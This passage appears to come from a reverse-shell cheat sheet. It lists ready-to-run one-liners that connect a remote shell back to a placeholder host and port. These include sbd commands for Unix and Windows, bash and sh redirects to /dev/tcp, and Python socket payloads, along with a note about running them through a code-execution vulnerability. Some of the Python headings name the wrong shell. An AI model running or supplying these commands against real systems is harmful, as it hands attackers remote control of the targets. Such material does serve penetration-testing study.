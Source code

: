 ### *nix
```
sbd -nv -e /bin/bash [HOST] [PORT]
```
```
sbd -nv -e /bin/sh [HOST] [PORT]
```

### Windows
```
sbd.exe -nv -e cmd.exe [HOST] [PORT]
```


## *nix Native
**NOTE:** if these are executed via a code execution vulnerability, the exploit must support shell syntax (ie. be executed by a shell on the target system)

### bash
```
/bin/bash -i >& /dev/tcp/[HOST]/[PORT] 0>&1
```

### sh
```
/bin/sh -i >& /dev/tcp/[HOST]/[PORT] 0>&1
```


## Python

### *nix with sh (shell runs in background and does NOT halt subsequent execution)
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[HOST]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.Popen(["/bin/bash","-i"]);'
```

### *nix with bash (shell runs in background and does NOT halt subsequent execution)
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[HOST]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.Popen(["/bin/sh","-i"]);'
```

### *nix with sh (shell runs in foreground and halts subsequent execution until shell is terminated)
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[HOST]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
